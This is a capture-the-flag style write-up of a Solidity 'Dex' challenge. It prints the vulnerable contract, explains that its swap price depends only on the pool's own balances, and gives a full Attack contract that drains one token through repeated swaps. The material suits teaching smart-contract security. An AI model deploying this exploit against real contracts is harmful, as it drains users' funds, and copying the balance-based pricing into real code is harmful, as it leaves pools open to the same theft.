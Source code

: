 <div align="center">

# Dex

</div>



**Dex (Vulnerable Code) :**


<details>
<summary>Code</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableToken(token1).approve(msg.sender, spender, amount);
        SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}

```

</details>

---------

**Approach and Exploit Method Including Code :** 

1. **Understand the contract**

- `Dex` allows swapping between `token1` and `token2` using the formula:  
  `swapAmount = (amount * balanceOf(to)) / balanceOf(from)`.  
- Both tokens are ERC20, but the contract trusts its own `getSwapPrice()` calculation based on current balances.  
- **Key idea:** Because the price is computed **solely from the Dex’s token balances**, an attacker can manipulate the swap ratio by swapping small amounts back and forth, draining one token completely.

2. **Vulnerability Highlight (key part)**


```solidity

function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}

```


## Exploit Code

```Solidity

contract Attack {
    IDex private immutable dex;
    IERC20 private immutable token1;
    IERC20 private  immutable token2;

    constructor (IDex _dex){
        dex = _dex;
        token1 = IERC20(dex.token1());
        token2 = IERC20(dex.token2());
        
    }

    function pw()external {
        token1.transferFrom(msg.sender, address(this), 10);
        token2.transferFrom(msg.sender, address(this), 10);

        token1.approve(address(dex), type(uint).max);
        token2.approve(address(dex), type(uint).max);

        _swap(token1, token2);
        _swap(token2, token1);
        _swap(token1, token2);
        _swap(token2, token1);
        _swap(token1, token2);

        dex.swap(address(token2), address(token1), 45);
        require(token1.balanceOf(address(dex)) == 0, "dex balance != 0");



    }

    function _swap(IERC20 tokenIn, IERC20 tokenOut) private {
        dex.swap(address(tokenIn), address(tokenOut), tokenIn.balanceOf(address(this)));
    }




}

    interface IDex {
    function token1() external view returns (address);
    function token2() external view returns (address);
    function getSwapPrice(address from, address to, uint256 amount) external view returns (uint256);
    function swap(address from, address to, uint256 amount) external;
}

interface IERC20 {
    function totalSupply() external view returns (uint256);
    function balanceOf(address account) external view returns (uint256);
    function transfer(address recipient, uint256 amount) external returns (bool);
    function allowance(address owner, address spender) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
}


```

---


